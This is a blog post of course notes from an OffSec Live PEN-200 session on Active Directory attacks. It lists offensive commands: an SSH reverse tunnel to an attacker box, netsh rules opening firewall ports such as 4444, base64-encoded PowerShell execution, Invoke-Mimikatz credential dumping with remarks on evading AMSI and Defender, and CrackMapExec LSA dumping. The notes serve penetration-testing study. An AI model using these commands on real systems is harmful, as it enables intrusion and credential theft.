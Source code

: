 ```yaml
---
title: 'OffSec Live: PEN-200'
date: 2022-08-31 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-08-31-offsec-live-pen-200.html
author: 100007
---
```


# OffSec Live: PEN-200

**author:** Nathan Acks  
**date:** 2022-08-31

# Active Directory Enumeration & Exploitation, Part 3

To use SSH as a generic SOCKS5 proxy, just use remote port forwarding.

```
# This command is run from the TARGET and connects back to the ATTACKER
# box. PORT on the ATTACKER box can then be used as a SOCKS5 proxy via
# proxychains, etc.
#
ssh -R $PORT $USER@$ATTACKER
```

To remember the difference between local and remote port forwarding, think of local port forwarding as connecting a port on the local machine to a remote service, while remote port forwarding connects a port on a remote machine to the local service - or SSH instance (if _only_ a port is given)! Setting up SSH as a proxy doesn’t make sense in the context of the local port forwarding, but can make sense for remote port forwarding.

(SSH port forwards are always read as `$FROM_MACHINE:$FROM_PORT:$TO_MACHINE:$TO_PORT`.)

Check Windows Firewall state:

```
netsh advfirewall show currentprofile
```

See all Windows Firewall rules for inbound connections:

```
netsh advfirewall firewall show rule dir=in name=all
```

Be aware that most built-in rules on Windows are bound to particular applications. But admins are lazy, and seldom bind custom rules to explicit applications. There’s no 100% reliable way to identify such rules, but they’ll often have obvious naming conventions.

See all Windows Firewall rules for outbound connections:

```
netsh advfirewall firewall show rule dir=out name=all
```

In general you don’t want to turn off the Windows Firewall, as doing so will generate a popup for any users currently logged into the machine.

Punch a hole in the Windows Firewall for ports 80, 443, and 4444:

```
netsh advfirewall firewall add action=allow name=tunnel_in `
 dir=in protocol=tcp localport="80,443,4444"
netsh advfirewall firewall add action=allow name=tunnel_out `
 dir=out protocol=tcp localport="80,443,4444"
```

Encode a command to base64 in PowerShell:

```
$Text = "$ONE_LINE_POWERSHELL_COMMAND"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText = [Convert]::ToBase64String($Bytes)
```

Run this using:

```
powershell.exe -enc $EncodedText
```

See logged in users with PowerView.ps1:

```
Get-NetLoggedon | select UserName
```

Mimikatz binaries are generally detected by AV on download these days, but fortunately there’s a PowerShell reimplementation that can be run after bypassing AMSI.

```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"' > C:\mkat.txt
```

Note, however, that Microsoft Defender will still detect the execution of Invoke-Mimikatz and kill the hosting PowerShell process. This is why we need to redirect the output to a file.

AV can also by bypassed using CrackMapExec:

```
crackmapexec smb $TARGET_NETWORK/$TARGET_NETMASK \
-u $TARGER_USER -p $CRACKED_PASSWORD --lsa 2> /dev/null
```

This only works if `$TARGET_USER` is an admin. If a user’s password is currently in memory, CrackMapExec will dump this as well (so then you don’t need to crack the hash!).

- [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
- [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
- [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- [EmpireProject / Empire / data / module\_source / credentials / Invoke-Mimikatz.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1)
